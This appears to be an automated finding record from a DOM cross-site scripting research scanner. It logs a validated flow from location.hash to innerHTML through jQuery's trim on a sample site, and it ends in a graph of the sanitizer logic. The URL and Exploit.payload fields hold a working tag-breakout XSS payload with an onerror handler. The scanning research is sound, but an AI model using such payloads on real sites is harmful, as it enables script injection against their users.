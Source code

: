 // Finding: 56cfe3c4-627c-4f48-87d7-f8c32168d9d7
// Finding.url: https://www.example156.com/product/mobile/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('01728dda3d5747feb42f9d992dc4523d')><!--/*
// Finding.parentloc: https://www.example156.com/product/mobile/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('01728dda3d5747feb42f9d992dc4523d')><!--/*
// Finding.domain: www.example156.com
// Finding.base_domain: example156.com
// Finding.source: location.hash
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: trim
// Sanitizer.location: https://www.example156.com/product/wp-includes/js/jquery/jquery.js?ver=1.11.3 - trim:2:3111
// Finding.begin: 0
// Finding.end: 121
// Finding.original_uuid: dc56d1a6-def6-4505-9336-abc7baf96a02
// Finding.TwentyFiveMillionFlowsId: -600417996
// Finding.script: https://www.example156.com/product/wp-includes/js/jquery/jquery.js?ver=1.11.3
// Finding.line: 4
// Exploit.uuid: 01728dda-3d57-47fe-b42f-9d992dc4523d
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: s
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 5
// Exploit.replace_begin_url: 41
// Exploit.replace_end_url: 41
// Exploit.replace_begin_param: 328
// Exploit.replace_end_param: 328
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -935660699
// DepGraph.sanitizer_hash: 1406639520

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="Lit: #"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: a[name="];
n7 [shape=ellipse, label="."];
n8 [shape=box, label="Lit: ]"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /^[\s\uFEFF\xA0]+|[\s\uFEFF\xA0]+$/"];
n11 [shape=box, label="Lit: "];
n12 [shape=box, label="Var: x"];
n13 [shape=box, label="Var: x"];
n14 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n5 -> n6;
n5 -> n1;
n7 -> n5;
n7 -> n8;
n12 -> n7;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n13 -> n9;
n14 -> n13;
}
